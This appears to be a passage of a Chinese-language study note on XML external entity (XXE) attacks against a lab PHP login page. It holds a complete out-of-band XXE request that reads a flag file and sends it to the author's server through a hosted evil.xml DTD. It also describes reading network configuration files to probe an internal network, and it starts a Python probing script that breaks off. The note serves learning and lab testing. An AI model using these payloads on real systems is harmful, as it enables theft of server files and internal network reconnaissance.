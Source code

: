 启动我们服务器的监听<br />将发送报文改为如下内容
```xml
POST /php_xxe/doLogin.php HTTP/1.1
Host: 192.168.43.231
Content-Length: 286
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://192.168.43.231
Referer: http://192.168.43.231/php_xxe/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE user[
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=c:/flag.txt">
<!ENTITY % dtd SYSTEM "http://192.168.43.147/evil.xml">
%dtd;
%send;
]>
<user><username>admin</username><password>admin</password></user>
```
其参数实体的调用为：首先在报文中调用dtd实体，dtd实体存在于我们的服务器，dtd实体中调用payload实体，而payload实体为 对send实体的定义，这样便从我们的服务器导入了send实体的定义，最后在报文中调用send实体，send实体的内容为 向我们的服务器发起GET请求，请求的内容为file实体，以此将file实体中的文件内容通过GET请求发送到我们的服务器。<br />![截屏2021-06-19 下午5.32.16.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624095155024-a55f5eb3-e70b-4339-9cee-53836c276bf3.png#align=left&display=inline&height=1750&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-19%20%E4%B8%8B%E5%8D%885.32.16.png&originHeight=1750&originWidth=2696&size=1558301&status=done&style=none&width=2696)<br />（本图回复包中的报错还没有搞清楚……正常的回复包应该只有包头，不过也可以看到，在回复包的报错中也爆出了请求的内容）<br />可以看到，在发出请求包之后，我们的服务器马上收到了带有GET请求内容的请求包<br />![截屏2021-06-19 下午5.36.55.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624095426851-005374ea-5a69-43e5-b1d9-55084f2b36fc.png#align=left&display=inline&height=222&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-19%20%E4%B8%8B%E5%8D%885.36.55.png&originHeight=222&originWidth=1290&size=159149&status=done&style=none&width=1290)<br />最后将收到的内容进行base64解码，即可得到flag值<br />![截屏2021-06-19 下午5.38.57.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624095550592-60bb7dba-8cfc-4fb9-96e7-eacb210de7ed.png#align=left&display=inline&height=1750&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-19%20%E4%B8%8B%E5%8D%885.38.57.png&originHeight=1750&originWidth=2696&size=346635&status=done&style=none&width=2696)<br />![截屏2021-06-19 下午5.39.31.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1624095585953-f94f217b-3dbf-413b-86a2-68840c5e6af8.png#align=left&display=inline&height=410&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-19%20%E4%B8%8B%E5%8D%885.39.31.png&originHeight=410&originWidth=722&size=75769&status=done&style=none&width=722)
## XXE探测内网端口
这里利用XXE作为跳板，向目标主机所在内网发送请求，看是否有回应<br />这里引用笔记最后推荐的一篇好文章的探测内网的部分

我们以存在 XXE 漏洞的服务器为我们探测内网的支点。要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子（我以linux 为例），我们可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

**下面是一个探测脚本的实例：**
```python
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
```